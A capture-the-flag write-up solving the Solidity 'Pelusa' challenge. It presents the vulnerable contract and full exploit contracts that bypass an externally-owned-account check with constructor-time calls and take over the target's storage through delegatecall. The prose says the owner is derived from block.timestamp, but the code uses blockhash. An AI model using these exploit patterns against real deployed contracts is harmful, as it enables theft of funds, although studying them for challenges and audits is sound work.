 # Pelusa

## Challenge

We get one contract which we need to exploit

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

interface IGame {
    function getBallPossesion() external view returns (address);
}

// "el baile de la gambeta"
// https://www.youtube.com/watch?v=qzxn85zX2aE
// @author https://twitter.com/eugenioclrc
contract Pelusa {
    address private immutable owner;
    address internal player;
    uint256 public goals = 1;

    constructor() {
        owner = address(uint160(uint256(keccak256(abi.encodePacked(msg.sender, blockhash(block.number))))));
    }

    function passTheBall() external {
        require(msg.sender.code.length == 0, "Only EOA players");
        require(uint256(uint160(msg.sender)) % 100 == 10, "not allowed");

        player = msg.sender;
    }

    function isGoal() public view returns (bool) {
        // expect ball in owners posession
        return IGame(player).getBallPossesion() == owner;
    }

    function shoot() external {
        require(isGoal(), "missed");
				/// @dev use "the hand of god" trick
        (bool success, bytes memory data) = player.delegatecall(abi.encodeWithSignature("handOfGod()"));
        require(success, "missed");
        require(uint256(bytes32(data)) == 22_06_1986);
    }
}
```

The goal is to change the goals from 1 to 2.

## Solution

First you need to get the owner. You can do this by calculating the value from the address that called the constructor and the block.timestamp at the construction tx. 

Then i wrote a simple contract called Shooter. This contract calls the passTheBall functionality if his own address to mod 100 is 10 and sets himself as the player. It does this during the constructor so the require in pelusa doesn't fail, which checks the extcodesize. In addition this contract implements the IGame interface and returns the owner in case of a call to getBallPossesion. It also has a function for handOfGod() which sets goals to 2 and returns the wanted value.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Pelusa.sol";

contract Shooter
{
    address private immutable owner;
    address internal player;
    uint256 public goals;

    //The real owner is the one who deployed the contract, could be retrieved via etherscan or a web3 script scraping for the contract creation transaction
    constructor(address target, address _owner) 
    {
        owner = _owner;
        if (uint160(address(this)) % 100 == 10)
        {
            Pelusa(target).passTheBall();
        }
    }

    function getBallPossesion() external view returns (address)
    {
        return owner;
    }

    function handOfGod() external returns (uint256)
    {
        goals = 2;
        return 22_06_1986;
    }
}
```

Then i wrote the exploit contract which produces shooters until it gets a valid address. Afterwards it calls the shoot function.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Shooter.sol";

contract Attack
{
    function attack(address target, address real_owner) external
    {
        address last_created;
        while (uint160(last_created) % 100 != 10)
        {
            last_created = address(new Shooter(target, real_owner));
        }

        Pelusa(target).shoot();
    }
}
```

In our case the change of goals works, as our shooter contract is called through a delegatecall in the pelusa contract, the change of goals gets done in pelusas context.

I also added a POC, which you can find in the POC.sol file.


